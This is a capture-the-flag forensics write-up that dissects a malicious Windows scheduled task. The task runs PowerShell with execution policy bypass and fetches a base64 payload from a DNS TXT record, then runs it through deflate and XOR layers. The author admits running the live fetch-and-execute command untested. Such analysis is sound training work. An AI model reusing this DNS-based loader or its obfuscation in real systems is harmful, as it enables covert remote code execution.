



# Palimpsest
Our IT department was setting up a new workstation and started encountering some strange errors while installing software.
The technician noticed a strange scheduled task and luckily backed it up and grabbed some log files before wiping the machine!
Can you figure out what's going on?
We've included the exported scheduled task and log files below.

## Solution
This was an interesting challenge, touching on a few different categories and methods used previously, while still adding it's own unique touch.

This looked like a normal event log challenge, but it had an XML file called "Updater Service.xml", which is not usually in these challenges. So naturally, I started inspecting that file and immediately found something interesting:

```xml
    <Exec>
      <Command>powershell.exe</Command>
      <Arguments>-ExecutionPolicy Bypass -Command "Invoke-Expression ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String((Resolve-DnsName 5aa456e4dbed10b.pyrchdata.com -Type txt | Select-Object -ExpandProperty Strings))))"</Arguments>
    </Exec>
```

Without thinking too much about it, I tried to run the command, but got an error. So I started to dissect the command:

`Resolve-DnsName 5aa456e4dbed10b.pyrchdata.com -Type txt`\
This command is similar to the Linux command `dig`. Running this command in powershell gives us some text, which from the `FromBase64String` command, is clearly base64. The output of the first command is something like this:

```
LiggJFNIRWxsaURbMV0rJFNIRWxMaWRbMTNdKydY
JykoIG5lVy1vQkpFQ1QgSW8uQ29tUHJlU3NJT04uZ
EVmbEFUZVN0UmVBbShbc3lTVGVtLklPLm1FTU9SWX
NUUkVBTV1bc1lzdEVNLmNPbnZlUlRdOjpGUk9tQkF
zRTY0c3RyaW5HKCAnWlZiTGF0eFFEUDBWTFZwbUp0
d0o5MjE3bVQ1b0N5V0IwbDBJSmFWWkpKQVdzaWlCd
HY5ZTZVaTY, 5clFMRzE5TDF1UG9TUEw1ZnYvdTd2
UHg1KzNUL2NYWGoyOXBkL2I0N2Vsc2R6aS92SDI4d
Xk0aHBaQnZqZzlYOTk5M3U4TitmLzM2L2NYVDljME
43U25sUkNIRmhRS2xPUE05eDlDbVFEWEtpOGl5M01
MU1dTQlhUWHlGVkZpdFVoQ1ZOTEhHUktITVFiOHZt
UzgrSkxaYnNnaGdIOC9RVEltZjJnTERLYk4yNjJ3b
mk1Z042eHU1NER1TGkwSk, RvY21uSkJwOG1xQ1FV
```
Which I decoded in python:
```python
print(base64.b64decode(step1))

b".( $SHElliD[1]+$SHElLid[13]+'X')( neW-oBJECT Io.ComPreSsION.dEflATeStReAm([sySTem.IO.mEMORYsTREAM][sYstEM.cOnveRT]::FROmBAsE64strinG( 'ZVbLatxQDP0VLVpmJtwJ9217mT5oCyWB0l0IJaVZJJAWsiiBtv9e6Ui69rQLG19L1uPoSPL5fv/u7vPx5+3T/cXXj29pd/b47elsdzi/vH28uy4hpZBvjg9X9993u8N+f/36/cXT9c0N7SnlRCHFhQKlOPM9x9CmQDXKi8iy3MLSWSBXTXyFVFitUhCVNLHGRKHMQb8vmS8+JLZbsghgH8/QTImf2gLDKbN262wni5gN6xu54DuLi0JDocmnJBp8mqCQUoe8ScDZzCaJhD33iJBcYekiR65Ns5bQSG56ShDKPcUJejWYVNXEB7kTJNfLxgXBh0UjRw3FvpxD5ngUXvEAjJFdlBrBYZ4UPwdTXBCCw0GBFYGCCUeCKBmkBNAqy5rGlIErnZjXanuxPEAr0X9G+aE2rVNLoksG/FqYWdXIigGHeFEl2tYpWAG7gwwkUqhsQ0pNrUJRYRBaZUhABtbjcNikOOwxiNFWyGupItR6I7ECBWEqDDjYbIA6qoJTkuzwEMRcni1oMVeMT4JFQZSFlJ6V8ZJCml/Lsyh2jBrLxU+bkS/LBeUqpGuOgtyUsOy1G0ywIxlJ2LXoS4FdBIwKAZJ51Eje8auGIi4GzxwU8aZIgilKqiUMSjmPRKC9r+0qoqiZT25DqWBdJLVnlKpzzdqWAApj0/MoBQ0OahsrN1sY7a4sacoFWjlCq+NUlQcVMHMmPTujND+lNXkii7UNUlxzYrpLsqopwEk+Gg9K0yV8pWQPRgCpovPacmSG1mm0lVtYaMt/Aak4PZd5TIYyO2NtPnEXzDYYnchILgYrOEgoGCIsb3f/OmtGqWmFc9T+BLercwmnPCuJqETFjsmutbF4rNKkEPFTKR4U+jIq9DUZGRIGHwsaIKGebTsgQo+kTZCWyd6X4gyK7mZ2cFZMSlQqqmAZbFAVkDebQvLopRfXTBcFTvOKju/qQSJfDViLjBW29sRCow9AmM3OyjZr1slWfNoCq8F6nYcNk59BoTHxZOA1lWKQJxvFRZsv6SzB8knlNAMZRroDED8WwUS2SRedZSQjZcFMItu7Y0+CcjH/C6wDowGf7HbaLnfbmpt20hnpO8hzGsvMoST/evYNNiI4xbcuTrq+dtbYNrIlvNvWwQJQtl24gs52ik1OA922TKfD75f0i/BDJL9DL77Q8dXz1addfG5vdoc/dDg+/PhwyX9NfwE=' ) ,[Io.coMPREssIon.COMPreSSiONMoDE]::dEcompRESs)| forEacH-obJECT {neW-oBJECT sysTEm.IO.STREAMREaDeR( $_ , [TExT.encoDiNG]::asCii ) }| foreACH-OBjECT {$_.REAdToEnd() } )"
```

The output is again another PowerShell script, and instead of modifying the code or trying to get it to work, I recreated it in python. It was pretty clear what the script was doing, so I just copied the data into a variable and decompressed it:

```python
decoded_data = base64.b64decode(step2)
decompressed_data = zlib.decompress(decoded_data, -zlib.MAX_WBITS)
print(decompressed_data.decode('ascii'))

.((GeT-variAbLE '*mdr*').Name[3,11,2]-jOin'')(([CHAr[]] ( 121 ,109 , 108 , 20,57, 40, 100 ,125,96 , 6 , 41, 4,13, 24 ,0, 117,127 ,38,108 , 32, 38,111 ,32 ,38 ,109,32 ,127 ,112 ,59,125,122, 56, 122 ,113,122, 52, 50 ,122, 113 , 122 ,115 ,59 , 52 ,17,122,116 , 125, 102,125,121 , 38 ,60 , 32 , 125, 96,125 , 105,109 ,109, 109,109 ,115 , 115 ,107 , 104,109,109, 109, 102 ,125,121,38 ,63 , 32 , 125 , 96, 125, 125 ,121 , 109, 108,20 ,57, 40 ,100, 103 , 103,117 , 127, 38,108 , 32,38 , 109 ,32,38,111 , 32,127 ,125, 112 , 59,125, 122, 47 ,52 , 122,113, 117 , 127, 38 , 108, 32, 38 , 109, 32 ,127,125, 112 , 59,122 ,45, 56, 51, 10 ,122,113 , 122 ,18,122 , 116 , 113, 122 , 41 , 56 ,122 ,116 ,115 , 20 ,51,43 ,50 , 54 , 56,117 ,117,23 ,50, 52,51,112, 13 , 60,41 ,53 ,125 , 112, 13,60 ,41 ,53 ,125,121,38,24 ,51,11, 103 , 60, 61 , 13 , 61 ,45 , 61,25 ,28, 41 , 60 ,32,125,112 ,30 , 53 , 52, 49, 57, 13,60 , 41 , 53,125, 59,49,60, 58 ,115, 48 , 45,105,116 ,116 ,102,125 ,26 , 56 ,41 , 112,24 ,43, 56 , 51,41 ,17, 50, 58,125, 112,17,50,58 , 19 , 60,48,56 ,125 ,117,127 , 38,109,32,38 , 111 , 32, 38, 108 ,32 ,38, 110,32,127,125 ,112 , 59 , 125,122,28,45, 122, 113,122 , 49,52,62,60 ,41 , 52 , 122, 113 ,122, 45,122 ,113, 122 ,50 ,51, 122 ,116 , 125 ,112 ,14 ,50, 40 , 47 ,62, 56 ,125 ,117 , 127 , 38, 109, 32,38, 111,32 ,38, 108,32, 127 , 112,59 ,122, 48 , 46, 49 ,51,46,41 , 60,49,122 , 113,122 ,56,47, 122,113 ,122, 49 ,122 , 116 ,125,33 ,125 ,98 , 125 , 38,125 , 121 , 38, 28,32 ,125 , 112,62, 50,51,41 , 60 ,52 ,51,46 ,125, 121 , 38,2,32, 115,127 ,20, 51, 61 , 46 ,41 , 61 , 28 , 51, 30, 56 ,61, 52 , 25 , 127,125 , 32, 125 ,33,125 , 14 , 50, 47 ,41,112 , 18 ,63, 55 ,56, 62 , 41, 125, 20, 51, 57 ,56,37, 125, 33, 125,120, 125 ,38, 125 , 121 , 38, 30 ,32 , 125 ,96 , 125 , 121 ,38 , 2,32 , 115 , 127, 57,61 , 28 , 9, 60 , 127,102 ,125 ,121 , 38, 63, 32 , 115 ,117,127,38,108 ,32, 38, 109 ,32,127,112,59,125,122, 52 ,41 ,56 ,122 ,113 , 122,10, 47, 122, 116 , 115,20 , 51 ,43 ,50 ,54 ,56 , 117 ,121, 38 , 30,32,113,125,109,113,125 ,121 , 38 ,30, 32,115 ,127 ,17 , 56, 19 , 61, 26 ,9, 53, 127 ,116 , 125, 32 ,102 , 125 , 121 ,38, 63, 32, 115, 117,127 ,38, 108 , 32, 38 ,109, 32, 127 , 125,112, 59,125 , 117 , 127, 38, 109 ,32 , 38 ,108, 32,127, 125 , 112,59,125,122,49 , 50, 46 ,122 , 113 , 122 ,56,122 , 116, 113 ,122 ,30,122 , 116 ,115,20 , 51, 43, 50, 54 ,56 ,117 ,116 )|% { [CHAr] ( $_ -BxOR'0x5D')} )-joIN'')
```

Again, we get another script that looks like ascii characters XORed with 0x5D.

```python
xor_key = 0x5D
decoded_string = ''.join(chr(num ^ xor_key) for num in step3)
print(decoded_string)

$01Idu9 =[tYPE]("{1}{2}{0}"-f 'e','io','.fiL') ; ${a} = 40000..65000; ${b} =  $01Idu9::("{1}{0}{2}" -f 'ri',("{1}{0}" -f'penW','O'),'te').Invoke((Join-Path -Path ${EnV:a`P`p`DAta} -ChildPath flag.mp4)); Get-EventLog -LogName ("{0}{2}{1}{3}" -f 'Ap','licati','p','on') -Source ("{0}{2}{1}"-f'mslnstal','er','l') | ? { ${A} -contains ${_}."In`st`AnCe`iD" } | Sort-Object Index | % { ${C} = ${_}."d`ATa"; ${b}.("{1}{0}"-f 'ite','Wr').Invoke(${C}, 0, ${C}."LeN`GTh") }; ${b}.("{1}{0}" -f ("{0}{1}" -f 'los','e'),'C').Invoke()
```

This script was a little harder to understand, so to save time I asked ChatGPT if he could write it in a readable way. I got this script:

```powershell
# Define the file type as System.IO.File
$fileType = [System.IO.File]

# Define a range of event IDs that we are interested in
$eventIDsToMatch = 40000..65000

# Set the path to the 'flag.mp4' file in the user's AppData directory
$filePath = Join-Path -Path $env:AppData -ChildPath "flag.mp4"

# Open 'flag.mp4' for writing
$fileWriter = $fileType::OpenWrite($filePath)

# Get the Application event log entries with source 'msinstaller' and specified event IDs
Get-EventLog -LogName "Application" -Source "msinstaller" |
    Where-Object { $eventIDsToMatch -contains $_.InstanceId } |
    Sort-Object Index |
    ForEach-Object {
        # Retrieve the event data
        $eventData = $_.Data

        # Write the event data to 'flag.mp4'
        $fileWriter.Write($eventData, 0, $eventData.Length)
    }

# Close the file writer after all data has been written
$fileWriter.Close()
```

This script will not work, for a few reasons. A little bit is intentional, and a little bit is ChatGPTs fault.

When running the script, it will locate YOUR log files. This means that the output will different for each person using it. Also, the program "msinstaller" is not usually something a computer would have. The correct program is "msiinstaller".

To fix the script, I made it read the `Application.evtx` file we were provided in the challenge. But, "msinstaller" was not found. I tried changing it to "msiinstaller". Still no luck. After losing some hair, I realized that the "I" was actually a lower cased "L"..

Finally, running the script gave me a file called "flag.mp4" which was filled with funny comments and ascii numbers. I made the following python script to remove the funny comments and convert the ascii to a binary file:

```python
ascii_data = bytearray()

with open("flag.mp4", "rb") as flag:
    data = flag.read().decode(errors="ignore")
    data = "".join(c if c.isdigit() or c.isspace() else "" for c in data)

    for a in data.split():
        byte_value = int(a)
        if 0 <= byte_value <= 255:
            ascii_data.append(byte_value)


with open("output.mp4", "wb") as output:
    output.write(ascii_data)
```

This file would not run, and the `file` command told me it was "data". Not very helpful. Using `strings` I could find several strings that hinted to it being a video file. I even found a video file signature: `66 74 79 70 69 73 6F 6D` (ftypisom), but this was placed in the middle of the file for some reason. After trying to extract and re-order the file I decided to check the event log.

This was the start of my file:


But this was not the first:


or last event in the logs:


So, the script isn't sorting. I added this line:
```powershell
Sort-Object Id, Index -Descending |
```

Got the sorted output, and turned it into a binary file again. I could now play the video, which contained the flag.
